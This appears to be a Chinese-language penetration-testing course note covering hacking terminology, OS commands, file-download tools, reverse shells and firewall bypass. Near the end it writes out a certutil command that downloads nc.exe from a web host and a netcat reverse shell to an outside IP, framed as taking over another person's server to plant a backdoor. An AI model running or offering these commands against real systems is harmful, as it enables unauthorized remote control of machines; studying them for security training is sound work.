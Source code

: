 [toc]

# 基础入门-操作系统&名词&文件下载&反弹SHELL&防火墙绕过

![课表](/Users/yangluchao/Documents/GitHub/security/image/day1.png)

#知识点：

1.  名词解释-渗透测试-漏洞&攻击&后门&代码&专业词
2.  必备技能-操作系统-用途&命令&权限&用户&防火墙
3.  必备技能-文件下载-缘由&场景&使用-提权&后渗透
4.  必备技能-反弹命令-缘由&场景&使用-提权&后渗透

==前后端，POC/EXP，Payload/Shellcode，后门/Webshell，木马/病毒，
反弹，回显，跳板，黑白盒测试，暴力破解，社会工程学，撞库，ATT&CK等==
参考：

[渗透测试常用术语总结](https://www.cnblogs.com/sunny11/p/13583083.html)

[文件下载命令生成](https://forum.ywhack.com/bountytips.php?download)

[反弹shell命令一键生成](https://forum.ywhack.com/reverse-shell/)

[渗透测试常用命令](https://forum.ywhack.com/reverse-shell/)：

​	


演示案例：
➢ 基础案例1：操作系统-用途&命令&权限&用户&防火墙
➢ 实用案例1：文件上传下载-解决无图形化&解决数据传输
➢ 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯
➢ 结合案例1：防火墙绕过-正向连接&反向连接&内网服务器
➢ 结合案例2：学会了有手就行-Fofa拿下同行Pikachu服务器
#基础案例1：操作系统-用途&命令&权限&用户&防火墙
1、个人计算机&服务器用机
2、Windows&Linux常见命令
3、文件权限&服务权限&用户权限等
4、系统用户&用户组&服务用户等分类
5、自带防火墙出站&入站规则策略协议

#实用案例1：文件上传下载-解决无图形化&解决数据传输
Linux：wget curl python ruby perl java等
Windows：PowerShell Certutil Bitsadmin msiexec mshta rundll32等

#实用案例2：反弹Shell命令-解决数据回显&解决数据通讯
useradd 用户名 passwd 用户名
测试Linux系统添加用户或修改密码命令交互回显问题

#结合案例1：防火墙绕过-正向连接&反向连接&内网服务器
1、内网：
内网 -> xiaodi8
xiaodi8 !-> 内网
2、防火墙：
xiaodi8 <-> aliyun
xiaodi8防火墙 -> aliyun
aliyun !-> xiaodi8防火墙

#结合案例2：学会了有手就行-Fofa拿下同行Pikachu服务器
文件下载&反弹Shell:
certutil -urlcache -split -f http://www.xiaodi8.com/nc.exe nc.exe
nc -e cmd 47.75.212.155 5566

==下载木马程序，执行后门命令，实现控制的目的==

涉及资源：
https://docs.qq.com/doc/DQ3Z6RkNpaUtMcEFr